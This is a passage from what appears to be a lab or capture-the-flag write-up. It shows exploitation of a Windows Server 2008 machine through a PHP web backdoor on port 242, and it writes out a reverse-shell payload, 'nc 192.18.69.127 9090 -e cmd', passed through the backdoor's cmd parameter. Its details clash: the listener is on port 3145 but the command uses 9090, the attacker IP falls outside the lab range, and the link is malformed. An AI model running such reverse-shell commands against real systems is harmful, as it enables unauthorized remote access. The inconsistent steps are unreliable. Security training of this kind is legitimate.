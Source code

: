 ## Port 242

- After that, we confirm remote code execution (RCE) by visiting the URL below:

![](Images/Pasted%20image%2020221001115307.png)

#simplephpbackdoorRCE

- We transfer a netcat binary to the FTP server.

- We launch a netcat listener on our Kali machine at port 3145.

- The reverse shell is then executed by visiting the following URL, which gives us a shell.

[http://192.168.69.46:242/simplephpbackdoor.php?cmd=](http://192.168.69.46:242/simplephpbackdoor.php?cmd=dir)nc 192.18.69.127 9090 -e cmd

![](Images/Pasted%20image%2020221001115406.png)


---

# Privilege Escalation
## Local Enumeration

- Entering “systeminfo” revealed that Windows Server 2008 was being used on the computer, and no hot fixes or updates were present:
